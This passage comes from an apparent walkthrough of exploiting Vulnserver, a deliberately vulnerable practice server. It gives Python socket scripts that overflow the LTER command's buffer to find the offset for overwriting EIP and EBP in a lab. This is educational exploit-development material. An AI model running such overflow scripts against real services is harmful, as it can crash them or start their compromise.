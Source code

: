 Lets find it manually using python script used from our previous blog

Fuzzing with the our own pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat offset.py 
import socket, sys
# fuzzing for EIP offset
payload=b""
payload+=b"A"*1000
payload+=b"B"*1000
payload+=b"C"*100
payload+=b"D"*100
payload+=b"E"*100
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 offset.py 
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-offset-start.png">
</div>

Here we can see ```EIP``` has a data of ```CCCC```, which is from our payload

Still we need to pass our payloads precisely to hit the ```EIP``` to find its offset

After numerous tries, finally using this script we can overwrite the ```EBP``` and ```EIP``` with our own data

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat offset.py 
import socket, sys
payload=b""
# to overwrite buffer
payload+=b"A"*2001
# to overwrite EBP
payload+=b"B"*4
# to overwrite EIP
payload+=b"C"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()

```